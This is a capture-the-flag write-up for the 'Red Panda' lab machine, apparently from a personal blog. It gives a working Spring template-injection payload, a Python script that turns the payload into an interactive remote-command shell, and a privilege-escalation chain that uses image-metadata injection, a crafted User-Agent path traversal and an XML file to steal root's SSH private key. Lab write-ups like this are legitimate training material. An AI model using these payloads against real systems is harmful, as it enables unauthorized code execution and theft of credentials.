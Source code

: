 ```yaml
---
title: Red Panda (Easy)
author: Carlos
img_path: /writeimgs/redpanda
date: 2023-02-10
categories: [Writeups, writeups-easy]
tags: [Writeups, writeups-easy]
---
```

<div align="center"><img src= "/pandaicon.png/"></div> 

<div></div>
<p> </p>
We start scanning ports with nmap

<img src= "/writeimgs/redpanda/red1.png">


Once the port scan is done, we observe that on port 8080, they have a website, we enter there and find a nice search engine for pandas:

<img src= "/red2.png/">

If we use the whatweb command, we can observe the technology that the web has:

<img src= "/red3.png/">

Knowing this we can use an example of <A HREF="https://github.com/swisskyrepo/PayloadsAllTheThings"> PayloadsAllTheThings </A> but it blocks the $

<img src= "/red4.png/">

However, we can use * which works in the same way.

<img src= "/red5.png/">

To perform this process in an automatic and simple way, we can use the following script:

```ruby
#!/usr/bin/python3
import requests
from cmd import Cmd
from bs4 import BeautifulSoup

class RCE(Cmd):
    prompt = "\033[1;31m$\033[1;37m "
    def decimal(self, args):
        comando = args
        decimales = []

        for i in comando:
            decimales.append(str(ord(i)))
        payload = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)" % decimales[0]

        for i in decimales[1:]:
            payload += ".concat(T(java.lang.Character).toString({}))".format(i)

        payload += ").getInputStream())}"
        data = { "name": payload }
        requer = requests.post("http://10.10.11.170:8080/search", data=data)
        parser = BeautifulSoup(requer.content, 'html.parser')
        grepcm = parser.find_all("h2")[0].get_text()
        result = grepcm.replace('You searched for:','').strip()
        print(result)

    def default(self, args):
        try:
            self.decimal(args)
        except:
            print("%s: command not found" % (args))

RCE().cmdloop()
```

We use the above mentioned script and get the user flag!

<img src= "/red6.png/">
<p>
<img src= "/red7.png/">
</p>
After searching through directories for a while we found credentials in MainController.java.

<img src= "/red8.png/">

We can use these credentials to connect via ssh:

<img src= "/red9.png/">

We will try to use the pspy to see what is running behind, for that we download it and upload it with:

<b> <i>scp pspy64 woodenk@10.10.11.170:/home/woodenk</i></b>

<img src= "/red10.png/">

Once pspy is uploaded, we give it permissions and run it:

<img src= "/red11.png/">

If we look with pspy at the system tasks, we see that root runs a script like woodenk.

<img src= "/red12.png/">

This may be a clue to be able to scale, because why, would you delete files with that extension? Reviewing again the file where we found credentials we see how it exports the xml.

<img src= "/red13.png/">

Also in another App.java file we can see how it handles the metadata, now it starts to make sense that it will delete files with those extensions, but also in the file it shows us how it handles the User-Agent.

Looking at this configuration we can inject in the "Artist" field, a path where the xml will be, this in any image that later we will upload to the machine.

<img src= "/red14.png/">

Next we will create in the home an xml file that points to the root id_rsa, this with the name defined in the image plus _creds.xml.

<img src= "/red15.png/">

Now we have to make a curl request with the format we saw in the file as User-Agent.

<p> curl http://10.10.11.170:8080 -H "User-Agent: ||/../../../../../../../home/woodenk/gato.jpg" </p>

<img src= "/red16.png/">

Finally we will export the xml from /stats to take our file.

<img src= "/red17.png/">
<p> </p>
<img src= "/red18.png/">

After a few seconds if we check the xml it will have the root id_rsa.

<img src= "/red19.png/">

Now with this id_rsa, we can finally connect via ssh as root and get the much desired flag!

<img src= "/red20.png/">
